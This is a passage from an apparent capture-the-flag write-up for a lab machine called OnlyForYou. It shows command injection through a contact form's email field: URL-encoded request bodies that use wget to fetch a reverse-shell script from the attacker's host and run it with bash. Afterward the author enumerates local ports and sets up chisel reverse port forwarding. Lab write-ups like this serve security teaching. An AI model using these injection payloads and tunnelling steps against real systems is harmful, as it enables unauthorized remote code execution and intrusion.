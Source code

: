 Now, we just download the `[shel.sh](http://shel.sh)` file containing the reverse shell payload and then executing it with the next request with `bash /tmp/shell.sh`

```python
name=robin&email=robin%40only4you%2Ehtb%3Bwget%20http%3A%2F%2F10%2E10%2E14%2E22%2Fshell%2Esh%20%2DO%20%2Ftmp%2Fshell%2Esh&subject=nothing&message=al
name=robin&email=robin%40only4you%2Ehtb%3Bbash%20%2Ftmp%2Fshell%2Esh&subject=nothing&message=al
```

Doing so, we got the connection on the listener:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_6.png)

After doing initial enumeration, I noticed there were two users named `john` and `dev` and in the `/opt` folder, we see that there were two folders `gogs` and `internal_app` but we did not have permissions to check the folder, moving on, I saw that there were two ports in use `3000` and `8001`

```python
bash-5.0$ netstat -ntpl
netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1034/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
bash-5.0$ cd /tmp
```

Since we do not have the SSH connection, I used the `chisel` to perform port forwarding:

```python
bash-5.0$ ./chisel client 10.10.14.22:9999 R:8001:127.0.0.1:8001 R:3000:127.0.0.1:3000
<22:9999 R:8001:127.0.0.1:8001 R:3000:127.0.0.1:3000
2023/04/23 07:40:38 client: Connecting to ws://10.10.14.22:9999
2023/04/23 07:40:39 client: Connected (Latency 112.100734ms)
```
